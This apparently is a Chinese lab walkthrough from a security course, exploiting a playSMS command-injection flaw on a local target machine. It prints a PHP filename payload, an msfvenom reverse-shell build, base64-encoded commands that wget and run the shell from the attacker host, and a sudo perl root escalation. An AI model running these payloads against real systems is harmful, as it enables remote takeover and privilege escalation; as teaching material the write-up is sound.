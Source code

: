 ```yaml
---
title: 【网络安全0x0f】命令注入漏洞
date: 2020-06-23 15:35:08
tags: [网络安全, burpsuite, metasploit]
---
```


51CTO的网课，本篇利用nmap搜索开放端口，nikto、dirb挖掘web服务并探索robots.txt找到敏感目录，得到后台地址和用户口令，searchsploit搜索可利用漏洞，通过burpsuite篡改上传文件名为可执行命令，执行反弹shell获得低权用户shell，sudo -l查看免密sudo目录，使用perl命令行执行提权代码，获得root权限。

本篇使用工具nmap，dirb，nikto，burpsuite，metasploit。

<!-- more -->

# 使用命令

## perl提权

``` perl
sudo perl -e "exec '/bin/sh'"
```

## php

``` php
# 修改文件名为可执行php代码
<?php system(base64_decode('BAES64_TEXT_HERE'));die();?>.php
```

## base64

``` bash
# encode
echo "PLAIN_TEXT_HERE" | base64

# decode
echo "BASE64_TEXT_HERE" | base64 -d
```

# 渗透记录

1. nmap扫描靶机IP地址开放端口，一个`80`口的web服务，`dirb`挖掘`80`端口web信息，找到`robots.txt`和几个敏感目录：

``` bash
nmap -sV 192.168.1.121
dirb http://192.168.1.121 
```

![](./1066/1.PNG)

2. 依次访问，`/secure/`找到可疑的备份文件，`/nothing/`页面源码找到几个密码口令：

![](./1066/2.PNG)

3. 下载备份文件，解压需要密码，用前面的密码一个一个试：

![](./1066/3.PNG)

4. 解压出来看着格式和大小都不太对，`file`查看格式是文本，读取得到后台登录页面和用户名：

``` bash
file backup-cred.mp3
```

![](./1066/4.PNG)

5. 访问后台，还是前面的密码一个一个试：

![](./1066/5.PNG)

6. 查找playSMS系统漏洞，找到一个修改文件名漏洞：

``` bash
searchsploit playSMS
```

![](./1066/6.PNG)

7. 查看漏洞说明文档，有详细说明介绍：

![](./1066/7.PNG)

8. burpsuite开启监听，配置好浏览器的代理，点击上传文件，`Proxy`截获报文，发送到`Repeater`准备修改：

![](./1066/8.PNG)

9. `Repeater`里修改文件名为可执行命令，点击`Send`发送，右面的`Render`应该返回一个实时页面，这里出bug了，谷歌了一会也没解决：

![](./1066/9.PNG)

10. 生成反弹shell，格式是linux下的可执行二进制文件elf，放到apache目录下，启动apache2服务：

``` bash
msfvenom -p linux/x86/meterpreter_reverse_tcp lhost=192.168.1.114 lport=4444 -f elf > shell.elf
cp shell.elf /var/www/html/shell.elf
service apache2 start
```

![](./1066/10.PNG)

11. base64加密命令来绕过防火墙检测,依次修改文件名，每改一次需要重新抓一次包，不能重复发送同一个包：

``` bash
echo 'wget -O /tmp/shell http://192.168.1.114/shell.elf' | base64
echo 'chmod 777 /tmp/shell' | base64
echo '/tmp/shell' | base64
```

![](./1066/11.PNG)

12. metasploit开启监听，依次执行完三条命令，反弹得到`www-data`权限的shell：

![](./1066/12.PNG)

13. `sudo -l`查看发现`perl`有免密root执行权限，提权：

``` perl
sudo perl -e "exec '/bin/sh'"
sudo -i
```

![](./1066/13.PNG)

# 参考资料

1. [2020发布 CTF基础入门/CTF教程零基础 渗透测试/web安全/CTF夺旗【整套教程】](https://www.bilibili.com/video/BV1SJ411h7VW)